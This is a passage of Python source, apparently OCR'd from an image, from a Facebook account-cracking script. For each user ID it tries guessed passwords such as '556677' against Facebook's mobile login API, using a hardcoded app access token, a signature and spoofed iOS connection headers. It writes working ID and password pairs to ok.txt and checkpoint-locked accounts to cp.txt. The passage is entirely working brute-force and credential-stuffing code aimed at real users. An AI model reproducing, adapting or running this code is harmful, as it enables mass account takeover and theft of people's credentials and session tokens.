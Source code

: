 						ok.write(uid+"|"+pass2+"\n")

						ok.close()

						oks.append(uid+pass2)

					else:

						if "www.facebook.com" in data.json()['error_msg']:

							print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass2+"\033[0;97m")

							cp = open("cp.txt", "a")

							cp.write(uid+"|"+pass2+"\n")

							cp.close()

							cps.append(uid+pass2)

						else:

							pass3 = "556677"

							api = 'https://b-api.facebook.com/method/auth.login'

							params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass3, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

							headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

							data = requests.get(api, params=params, headers=headers_)

							if "access_token" in data.text and "EAAA" in data.text:

								print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass3+"\033[0;97m")

								ok = open("ok.txt", "a")

								ok.write(uid+"|"+pass3+"\n")

								ok.close()

								oks.append(uid+pass3)

							else:

								if "www.facebook.com" in data.json()['error_msg']:

									print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass3+"\033[0;97m")

									cp = open("cp.txt", "a")

									cp.write(uid+"|"+pass3+"\n")

									cp.close()

									cps.append(uid+pass3)

								else:
